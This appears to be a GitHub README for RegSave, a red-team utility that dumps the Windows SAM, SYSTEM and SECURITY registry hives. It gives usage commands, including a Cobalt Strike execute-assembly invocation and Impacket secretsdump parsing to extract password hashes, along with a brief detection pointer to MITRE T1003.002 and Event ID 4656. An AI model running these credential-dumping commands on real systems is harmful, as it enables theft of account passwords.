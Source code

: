 # RegSave

A .NET 3.5 application that will dump SAM / SYSTEM / SECURITY registry keys to a path of your choosing.

## Usage

```
regsave.exe c:\Users\USER\Appdata\Local
execute-assembly /opt/CS/toolkit/regsave.exe c:\Users\USER\Appdata\Local
```
Collect the files and then parse them with [Impacket secretsdump](https://github.com/SecureAuthCorp/impacket)

```
secretsdump.py -sam samantha.txt -security secundum.txt -system systemless.txt LOCAL
```


## Detection
[MITRE 1003.002](https://attack.mitre.org/techniques/T1003/002/)

Look for Event ID 4656 after configuring audit policy. 

More info at 
[Detecting Attempts to steal passwords from the registry](https://medium.com/threatpunter/detecting-attempts-to-steal-passwords-from-the-registry-7512674487f8)